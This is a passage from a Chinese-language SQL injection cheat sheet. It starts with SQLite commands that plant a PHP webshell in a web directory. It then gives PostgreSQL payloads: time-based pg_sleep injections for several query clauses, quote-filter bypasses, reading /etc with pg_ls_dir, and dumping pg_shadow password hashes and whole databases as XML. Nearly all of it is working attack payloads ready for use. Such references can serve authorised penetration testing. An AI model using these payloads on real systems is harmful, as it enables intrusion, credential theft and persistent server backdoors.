如果附加数据库不存在，就会创建该数据库，如果数据库文件设置在web目录下，就可以写入webshell。
```
ATTACH DATABASE '/var/www/html/shell.php' AS shell;
create TABLE shell.exp (webshell text);
insert INTO shell.exp (webshell) VALUES ('<?php eval($_POST[a]);?>');
```

---

## Postgresql

**相关文章**
- [SQL注入渗透PostgreSQL(bypass tricks)](https://xz.aliyun.com/t/8621)

### Postgresql 基础

- [Postgresql](../../../../Integrated/数据库/笔记/Postgresql.md)

**忽略**
```sql
SELECT 'admin' FROM users;
SELECT 'admin' OR 1 = 1; -- -' FROM users;
```

**||**

`||` 可用于将数据附加到同一行的输出中
```sql
SELECT ''||password FROM users; -- -';
```

**通过延时判断是否是 Postgresql 数据库的方法**

SELECT
```sql
-- 如果参数是整数：
pg_sleep(20); -- -

-- 如果参数是字符串：
'||pg_sleep(20); -- -
```

FROM
```sql
-- 当payload的第一个SELECT子句中提供了有效的表名(TABLE)和列(COLUMN)时
(SELECT * FROM [TABLE] WHERE [COLUMN]=1|(SELECT (SELECT CASE WHEN COUNT((SELECT pg_sleep(20)))<>0 THEN 1 ELSE 2 END))) ss; -- -

-- 或者
(SELECT * FROM [TABLE] WHERE [COLUMN] = 'asd'::varchar||(SELECT (SELECT CASE WHEN COUNT((SELECT pg_sleep(20)))<>0 THEN 1 ELSE 2 END))) ss; -- -

-- 当已知列需要一个Int
(SELECT * FROM address WHERE address_id=1|(SELECT (SELECT CASE WHEN COUNT((SELECT pg_sleep(20)))<>0 THEN 1 ELSE 2 END))) ss; -- -

-- 当已知列需要字符串时
(SELECT * FROM address WHERE address = 'asd'::varchar||(SELECT (SELECT CASE WHEN COUNT((SELECT pg_sleep(20)))<>0 THEN 1 ELSE 2 END))) ss; -- -
```

WHERE
```sql
-- 如果参数是整数
1|(SELECT (SELECT CASE WHEN COUNT((SELECT pg_sleep(20)))<>0 THEN 1 ELSE 2 END)); -- -

-- 如果参数是字符串
'||(pg_sleep(20)); -- -
```

HAVING
```sql
-- 如果参数是整数：
(COUNT((SELECT pg_sleep(20)))=1); -- -

-- 如果参数是字符串：
t' AND (SELECT COUNT((SELECT pg_sleep(20)))) = 1; -- -
```

OFFSET
```sql
-- 如果参数是整数：
1|(SELECT COUNT((SELECT pg_sleep(20)))); -- -

-- 如果参数是字符串
1'::integer + 1|(SELECT COUNT((SELECT pg_sleep(20)))); -- -
```

**当注入点在 WHERE 时**

可以配合 `||`
```sql
select * from test where username='admin' and password='admin'
select * from test where username='admin' and password=''||(select password);
```





### bypass 技巧

**注释**
```sql
SELECT version();
SELECT/**/version();
```

**代替引号**
```sql
select pg_ls_dir('/etc');
select pg_ls_dir($$/etc$$);         -- 使用 $ 符号
select pg_ls_dir($test$/etc$test$); -- 使用标签
select pg_ls_dir(CHR(47)||CHR(101)||CHR(116)||CHR(99)); -- 采取CHR()函数
```

**query_to_xml**

query_to_xml 可以将结果返回在一行里，不必担心限制或多行

```sql
SELECT query_to_xml('SELECT usename, passwd FROM pg_shadow;',true,true,'')
```

**DATABASE_TO_XML**

使用 xml 帮助程序通过单个查询转储整个数据库

```sql
SELECT database_to_xml(true,true,'')
```

### 提权/GETSHELL

- [Postgresql提权](../../软件服务安全/实验/Postgresql.md)
